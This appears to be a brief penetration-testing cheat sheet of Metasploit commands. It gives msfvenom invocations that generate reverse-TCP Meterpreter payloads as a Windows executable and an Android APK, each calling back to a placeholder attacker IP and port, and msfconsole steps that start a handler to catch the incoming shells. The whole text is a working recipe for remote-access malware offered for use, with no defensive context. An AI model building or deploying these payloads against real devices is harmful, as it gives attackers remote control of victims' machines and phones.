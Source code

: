 ### Windows reverse TCP Meterpreter

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> -f exe-only --platform windows --arch x64 > reverse.exe
```

### Android reverse TCP Meterpreter

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<attack_port> --platform android > reverse.apk
```

### Reverse TCP listener

_This example is for Windows reverse TCP. Switch the payload for the appropriate server_

```
$ msfconsole
> use exploit/multi/handler
> set payload windows/x64/meterpreter/reverse_tcp
> set LHOST <attack_ip>
> set LPORT 4444
> exploit
```

_Use `exploit -j` to start the listener in the background_